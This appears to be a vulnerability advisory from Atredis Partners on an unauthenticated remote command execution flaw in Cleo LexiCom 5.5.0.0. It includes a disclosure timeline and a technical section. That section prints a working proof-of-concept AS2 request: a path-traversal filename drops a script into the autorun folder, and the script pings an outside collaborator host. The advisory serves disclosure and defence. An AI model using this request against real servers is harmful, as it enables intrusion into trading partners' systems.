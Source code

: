 # Cleo - LexiCom Remote Command Execution

## Vendors

* Cleo

## Affected Products

Cleo LexiCom/5.5.0.0

## Summary

Cleo LexiCom is susceptible to an unrestricted file upload vulnerability when processing remote input from an unauthenticated user, leading to remote command execution.

## Remediation/Mitigation

It is unknown if later versions of LexiCom address this issue. It may be possible to mitigate this, in part, by requiring in-bound messages to be signed and encrypted. This must be configured on a partner by partner basis. However, requiring encryption and signing would not stop a trading partner from exploiting this vulnerability to gain code execution.

## Credit

This issue was found by Stephen Breen of Atredis Partners.

## References

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33576
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-33577
- https://www.cleo.com/cleo-lexicom

## Report Timeline

- 2021-02-24: Atredis Partners reached out to the vendors support team for a security contact.
- 2021-02-25: Vendor replied that the support team also handles security issues.
- 2021-03-01: Atredis Partners uploaded the vulnerability report to the vendors secure file transfer site.
- 2021-03-02: Vendor support team replied with release notes for v5.6.2 of LexiCom, but release notes do not list if issue is fixed.
- 2021-03-02: Atredis Partners informed the vendor that this is a vulnerability disclosure and that Atredis is not one of thier customers.
- 2021-03-23: Atredis requested an update, no response from vendor.
- 2021-04-13: Atredis requested an update, no response from vendor.
- 2021-04-14: Atredis reported the vulnerability to CERT/CC.
- 2021-06-01: Atredis published this advisory.


## Technical Details
LexiCom is an Electronic Data Interchange (EDI) product from the vendor Cleo. It facilitates communication between trading partners over industry standard protocols such as Applicability Statement 2 (AS2). Two flaws in Cleo LexiCom's implmentation led to the ability to obtain remote command execution as an unauthenticated user:

The first is that the requirement for the sender of an AS2 message to identify themselves via encryption and signing of the message can be bypassed by changing the Content-Type of the message to `text/plain`.

The second flaw is that within the AS2 message the sender can specify a filename. This filename can include path-traversal characters allowing the file to be written to an arbitrary location on disk.

These flaws can be exploited to gain remote command execution on the system by taking advantage of a feature of the application. The installation directory for the application contains a directory called `autorun` at `C:\LexiCom\autorun`. LexiCom will parse files placed in this directory and attempt to execute them as scripts in a special format. The following `POST` request was used to write a file to the `autorun` directory which LexiCom would then execute.

```http
POST / HTTP/1.1
Micalg:sha1
Date:Sun, 26 Jul 2020 17:18:04 GMT
Accept-Encoding:deflate, gzip, x-gzip, compress, x-compress
Disposition-Notification-Options:signed-receipt-protocol=optional, pkcs7-signature; signed-receipt-micalg=optional, sha1
Disposition-Notification-To:<redacted>
Ediint-Features:CEM, multiple-attachments, AS2-Reliability
Subject:EDIINTDATA
AS2-Subject:test
Te:trailers, deflate, gzip, compress
Content-Type:text/plain
Recipient-Address:<redacted>
Message-Id:<redacted>
As2-From:<redacted>
User-Agent:RPT-HTTPClient/0.3-3I (Linux)
As2-Version:1.2
Content-Disposition:attachment; filename=\..\..\autorun\test.txt
Content-Length: 78
Host:<redacted>
As2-To:<redacted>
Mime-Version:1.0
Content-Length: 78

-r * -c "SYSTEM ping <redacted>.burpcollaborator.net"
```

None of the information in the above request would be considered secret or hard to obtain. The `Message-Id` field can be anything so long as it is unique to the request. The `As2-From` field must be set to the identifier (ID) of a valid trading partner configured with LexiCom. These IDs are not secret and are publicly available. 
